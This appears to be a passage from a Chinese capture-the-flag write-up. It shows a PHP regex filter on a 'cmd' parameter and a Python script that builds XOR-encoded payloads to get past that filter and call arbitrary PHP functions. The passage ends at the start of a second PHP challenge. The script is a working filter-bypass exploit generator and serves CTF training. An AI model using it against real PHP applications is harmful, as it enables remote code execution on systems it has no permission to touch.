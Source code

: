 接下来绕过：``preg_match('/[a-z]|[0-9]|\+|\-|\.|\_|\||\$|\{|\}|\~|\%|\&|\;/i', $_GET['cmd'])``

```python
import re

def write():
	preg = '[a-z]|[0-9]|\+|\-|\.|\_|\||\$|\{|\}|\~|\%|\&|\;]+'
	str = ""
	for i in range(1,256):
		for j in range(1,256):
			if not (re.search(preg,chr(i),re.I) or re.search(preg,chr(j),re.I)):
				k = i ^ j
				if k >= 32 and k <= 126:
					a = '%'+hex(i)[2:].zfill(2)
					b = '%'+hex(j)[2:].zfill(2)
					str = (str + chr(k)+" "+a+" "+b+"\n")
	fp = open('result.txt','w')
	fp.write(str)
    
def produce(string):
	str1 = ""
	str2 = ""
	for i in string:
		fp = open('result.txt','r')
		while True:
			line = fp.readline()
			if line == "":
				break
			if line[0] == i:
				str1 = str1 + line[2:5]
				str2 = str2 + line[6:9]
				break
		fp.close()
	result = "(\""+str1+"\"^\""+str2+"\")"
	return result

if __name__ == "__main__":
	write()
	while True:
		function = input("输出执行函数:")
		parms = input("请输出函数参数:")
		payload = produce(function) + produce(parms)
		print(payload)
```



### web04

```php
 <?php  
    error_reporting(0);
    session_start();
    
    class Challenges{
        public $Y = 'fuck';
        public $A = 'hacker';
        public $S = 'hacker44';
        public $F = 'hacker555';
        public function __construct($y,$a,$s){
        $this->Y = $y;
        $this->A = $a;
        $this->S = $s;
    }
}
    $y = $_POST['y'];
```